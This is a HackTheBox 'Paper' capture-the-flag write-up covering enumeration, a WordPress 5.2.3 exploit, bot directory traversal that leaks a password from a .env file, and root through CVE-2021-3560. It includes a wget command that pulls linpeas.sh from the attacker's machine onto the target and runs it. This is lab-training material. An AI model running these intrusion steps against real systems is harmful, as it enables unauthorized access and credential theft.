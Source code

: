 ```yaml
---
title: Hackthebox - Paper (Easy)
date: 2023-03-13 12:00:00 +0100
categories: [HackTheBox, Write up]
tags: [nmap, wordpress, cve, sudo, gobuster, vhost]     # TAG names should always be lowercase
img_path: /img/HTB/Paper/
image: 1Paper.png
---
```




## Enumeration

### Nmap

Let's start scanning the box with nmap:
```bash
nmap -sC -sV -A ip_address
```

![nmap](nmap.png)

Since this is the first time I'm using nmap in a write-up, I'll provide a more detailed explanation. The `-A` flag is used for OS and version detection, script scanning, and traceroute, while `-sC` performs a script scan using the default set of scripts, and `-sV` is used for version scanning.

From the nmap output, we can see that the server has three open ports: 22, 80, and 443. While we need to inspect the webpage further, we've already noticed something strange from the nmap scan: the `TRACE` HTTP method is allowed. If [Cross Site Tracing](https://owasp.org/www-community/attacks/Cross_Site_Tracing)

### Web server
If we take a look at the port 80, there is a default page from apache hosted on CentOS.

![Web Page](image1.png)

At this point we can try to enumerate further with gobuster and intercept the HTTP request with burpusite to see if we can get something interesting.
Gobuster didn't find anything whereas burpsuite did:

![Burpsuite](Burpsuite.png)

In the response header there is a field `X-Backend-Server: office.paper`.

Let's add it in the `/etc/hosts`.

We can now navigate to `office.paper`:

![Web Page](officepaper.png)

Now we can enumerate this new webapp with gobuster again, using it not only for the directories search but for the virtual hosts too:
```bash
gobuster dir -u office.paper -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
```

![Gobuster dir](gobuster.png)

From the gobuster output we see it is a wordpress site.

```bash
gobuster vhost -u office.paper -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --append-domain
```
![Gobuster vhost](vhost.png)
So we have a subdomain `chat.office.paper`, let's add it too in the `/etc/hosts` file.
![Chat webpage](chat.png)
It looks like we need a secret registration URL, but we don't have it.
Before trying to bypass this login form I would like to try a `wpscan` as we have seen before it is a wordpress site.
```bash
wpscan --url office.paper
```

![wpscan](wpcan.png)

Wpscan has found a wordpress version 5.2.3 which is insecure, let's try to search if there is some exploit for it.
Indeed:
[https://www.exploit-db.com/exploits/47690](https://www.exploit-db.com/exploits/47690).
Trying this vulnerabilities on our site we found something interesting, a secret post with the registration link!

![registrationlink](registrationlink.png)

Now we can register and login in the chat, and looking a the general chat we see that there is a bot who can list and read files in the filesystem because the bot is vulnerable to directory traversal! This part is a lot CTFs like, so I'll go a bit faster. Enumerating the filesystem we can find a file  `../hubot/.env` with a password, now we can try this password to login via ssh with the users we can see in the `/etc/passwd`.

### User flag

```terminal
ssh dwight@office.paper                                                                                                      
dwight@office.paper's password:                                                                                                  
Activate the web console with: systemctl enable --now cockpit.socket                                                             
                                                                                                                                 
Last login: Tue Mar 14 06:29:23 2023 from 10.10.14.7                                                                             
[dwight@paper ~]$ pwd                                                                                                            
/home/dwight                                                                                                                     
[dwight@paper ~]$ id                                                                                                             
uid=1004(dwight) gid=1004(dwight) groups=1004(dwight)                                                                            
[dwight@paper ~]$ ls                                                                                                             
bot_restart.sh  hubot  sales  user.txt                                                                                           
[dwight@paper ~]$ cat user.txt                                                                                                   
8113e09a19213dbf************
```


## Privilage Escalation

We now have several options, we can try to manually enumerate or we can run a script like `linPEAS` or `linenum`. Even if manually enumerate is really good as practice, on this machine I dont't recommend it. So, let's see if we have wget on the machine with `which wget`, we have it! we can now open a server on this machine with the `linpeas.sh` script and download it from the target machine.
On our machine let's move on the directory with `linpeas.sh` and run:
```bash
python -m http.server 2323
```
Let's download it from the target machine:
```bash
wget http://our_ip_address:2323/linpeas.sh
```
and after the download:
```terminal
[dwight@paper ~]$ wget http://$our_ip_address$:2323/linpeas.sh                                                                         
--2023-03-14 06:41:08--  http://$our_ip_address$:2323/linpeas.sh                                                                       
Connecting to $our_ip_address$:2323... connected.                                                                                      
HTTP request sent, awaiting response... 200 OK                                                                                   
Length: 765823 (748K) [text/x-sh]                                                                                                
Saving to: ‘linpeas.sh’                                                                                                          
                                                                                                                                 
linpeas.sh                          100%[=================================================================>] 747.87K   960KB/s   
 in 0.8s                                                                                                                         
                                                                                                                                 
2023-03-14 06:41:08 (960 KB/s) - ‘linpeas.sh’ saved [765823/765823]                                                              
                                                                                                                                 
[dwight@paper ~]$ chmod +x linpeas.sh                                                                                            
[dwight@paper ~]$ ./linpeas.sh
```
It will return that the sudo version 1.8.29 is vulnerable to Vulnerable to CVE-2021-3560.[https://github.com/Almorabea/Polkit-exploit/blob/main/CVE-2021-3560.py](https://github.com/Almorabea/Polkit-exploit/blob/main/CVE-2021-3560.py)

Paste and copy this script in the box:
> When copy and paste on vi is usually better enter paste mode with `:set paste`.
{: .prompt-tip}
```bash
vi pe.py
chmod +x pe.py
python3 pe.py
```
And BOOM! We did it!
```terminal
[root@paper ~]# id
uid=0(root) gid=0(root) groups=0(root)
[root@paper ~]# cat /root/root.txt
acd41857c8e614c70***************
```
